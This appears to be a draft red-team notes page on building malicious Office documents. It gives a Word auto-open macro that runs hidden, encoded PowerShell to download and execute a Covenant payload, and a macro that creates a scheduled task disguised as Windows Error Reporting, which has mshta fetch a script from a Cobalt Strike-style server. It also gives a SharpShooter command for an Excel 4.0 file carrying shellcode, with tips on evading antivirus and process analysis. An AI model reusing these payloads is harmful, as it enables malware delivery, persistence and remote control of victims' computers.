 ```yaml
---
title: "Malicious Documents"
date: 2020-07-16T13:41:37+02:00
draft: true
---
```

reference: https://blog.f-secure.com/dechaining-macros-and-evading-edr/

#### Word Macro's
##### Basic Office Macro using PowerShell
The example below shows a basic Microsoft Office Word macro, downloading and executing a covenant payload.
```vb
Sub AutoOpen()    
        Call Shell("powershell -Sta -Nop -Window Hidden -EncodedCommand aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADAALgA5AC8AZgBpAGcAYQAnACkA")
End Sub
```

##### Creating a sheduled task using a Macro
The example code below shows the VB code that creates a sheduled task, which in turn downloads and executes a malicious SCT file using MSHTA. 
```vb
Sub Auto_open()
Call Shell("schtasks /create /sc MINUTE /tn ""Windows Error Reporting"" /tr ""mshta.exe javascript:a=GetObject('script:http://cobaltstrike.c2/updates/microsoftftp.jpg').Exec();close();"" /mo 15 /F")
End Sub
```
***

#### Malicious HTA ToDo
Find good (working) examples

#### Excel 4.0 Macro
Note: As of 09-22-2020 Microsoft has integrated Excel 4.0 (XLM) into the ASMI interface. (https://techcommunity.microsoft.com/t5/office-365-blog/keeping-users-safe-and-productive-with-microsoft-365-apps-for/ba-p/1665728)
Excel 4.0 Marcos are a depricated feature within Excel. Even though functionality (and documentation) might be limited, this is still a very powerfull way of executing code. Because this form of Macro's is so old, mant modern AV solutions have trouble tracking and detecting these macros. A big advantage of these Macros are the fact that it doesn't spawn a (child) process, which defeats parent/child analysis.
The SharShooter framework from MDSec has the ability to generate slk files (Excel files with 4.0 Macros), while embedding your own shellcode. The example below shows the command needed to generate a SLK file with a msfvenom generated shellcode file.
```
python SharpShooter.py --payload slk --rawscfile shellcode.bin --output test
```
You might want to put some effor into making the Excel file look nice :)




#### VBA Stomping (Work Out)
reference: https://medium.com/walmartlabs/vba-stomping-advanced-maldoc-techniques-612c484ab278



